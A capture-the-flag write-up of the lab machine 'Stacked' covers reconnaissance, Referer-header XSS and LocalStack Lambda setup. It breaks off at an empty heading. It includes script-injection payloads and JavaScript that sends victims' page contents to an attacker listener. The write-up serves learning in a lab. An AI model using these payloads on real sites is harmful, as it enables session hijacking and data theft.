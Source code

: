 ```yaml
---
title: htb stacked
author: Yuchao
date: 2022-03-29 11:33:00 +0800
categories: [sec]
tags: [htb, aws, localstack]
math: true
mermaid: true
---
```


## recon

#### nmap
```
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.11.112
nmap -p 22,80,2376 -sCV -oA scans/nmap-tcpscripts 10.10.11.112
```
- 22/tcp   open  ssh; 80/tcp   open  http; 2376/tcp open  docker

#### feroxbuster, directory discovery
``` feroxbuster -u http://stacked.htb ```

#### wfuzz, host discovery
``` wfuzz -H "Host: FUZZ.stacked.htb" -u http://stacked.htb -w /usr/seclists/Discovery/DNS/subdomains-top1million-20000.txt --hw 26```
- hide word length 26 responses
- find host: portfolio.stacked.htb - TCP 80
- a local stack development page.
- <https://github.com/localstack/localstack>
- serverless: run services often used for Serverless apps (iam, lambda, dynamodb, apigateway, s3, sns)

## XSS

#### recon for XSS
- input area, and interesting headers.
- add payload as ``` <img src="http://{attackerIP}/fieldname_or_header_name"> ``` in different places.
- send the request.
attacker machine
``` sudo python3 -m http.server 80 ```
- 80 as we did not specify port in set payload
- wait a while
- ``` "GET /referer HTTP/1.1" 404 - ```
- so the ONLY field vulnerable to XSS is: Header -> referer.
- - run ``` date ``` two times, culculate the XSS victim(background cron) activity interval.
- interesting material below.
- <https://www.horizon3.ai/unauthenticated-xss-to-remote-code-execution-chain-in-mautic-3-2-4/>

#### find out what the URL the victim is looking at.
- Burpsuite set header Referer: <script src="http://{attackerIP}/pwn.js"></script>
- ``` python3 -m http.server 80 ``` at pwn.js location, for victime to run pwn.js.
- use nc to accept the victim`s response.

xmlhttprequest:
- like background web request by browser.
```javascript
XMLHttpRequest.open(method, url, async)
// if async = false, the script itself will not go foward, until the response. Otherwise, we will get null.
XMLHttpRequest.send(body)
// body: Optional, A body of data to be sent in the XHR request.
```

Method 1:(lucky there is a referer header)
```javascript 
<script src="http://10.10.14.6/xss.js"></script> 
```
- in the victim`s referer, we can see the response is from: "/read-mail.php?id=5"

Method 2: (more generic)
```javascript
var exfilreq = new XMLHttpRequest();    
exfilreq.open("GET", "http://{attackerIP}/" + document.location, false);    
exfilreq.send(); 
```
- set above script as pwn.js
- when we nc at 80, can see the victim`s current page appended.
- in nc, we get "GET /http://mail.stacked.htb/read-mail.php?id=2 HTTP/1.1"
- For victim visited "http://{attackerIP}/http://mail.stacked.htb/read-mail.php?id=2"

This step we find out the inner email host name. (mail.stacked.htb)

#### Let victim visit inner pages for us.

```javascript
// Make target to visit the target
var target = "{the address we want victim to visit}"
var req1 = new XMLHttpRequest();
req1.open('GET', target, false);
req1.send()
var response=req1.responseText;
// Send what victim saw back to us
var req2 = new XMLHttpRequest();
req2.open('POST', "http://{attackerIP}:8000/", false)
req2.send(response);
```
- set target to "http://mail.stacked.htb/read-mail.php?id=1"
- read the mail.
- find new host "s3-testing.stacked.htb"
- a s3 domain.


## LocalStack vulnerability

#### CVE-2021-32090 
- locatstack version v0.12.6
- CVE search
- CVE-2021-32090 
- The dashboard component of StackLift LocalStack 0.12.6 allows attackers to inject arbitrary shell commands via the functionName parameter.

#### configure aws
```bash
apt install awscli
aws configure 
aws [command] [subcommand] --endpoint-url http://s3-testing.stacked.htb
```
- as the config said "SERVICES=serverless"
``` aws lambda list-functions --endpoint-url http://s3-testing.stacked.htb ```

#### Create lambda(this box only has nodejs runtime)
- <https://aws.amazon.com/lambda/>
- <https://docs.aws.amazon.com/cli/latest/reference/lambda/create-function.html>

create random lambda function
```javascript
//example from official website
exports.handler = async function(event, context){
  console.log("Event: \n" + JSON.stringify(event, null ,2))
  return context.logStreamName
}
```
{: .nolineno file="index.js" }
zip index.js
``` zip index.zip index.js ```
create this function at endpoint
```bash
aws lambda create-function \
    --function-name 'a' \
    --zip-file fileb://index.zip \
    --handler index.handler \
    --role localstackdonotmatter\
    --runtime nodejs10.x
```
invoke the function
```bash
aws lambda --endpoint=http://s3-testing.stacked.htb \
  invoke --function-name a output
```
check if it run properly
``` cat output ```

PS: if use python script, set "Runtime": "python3.7", but this machine does not have python runtime, so there would be an error.

####  



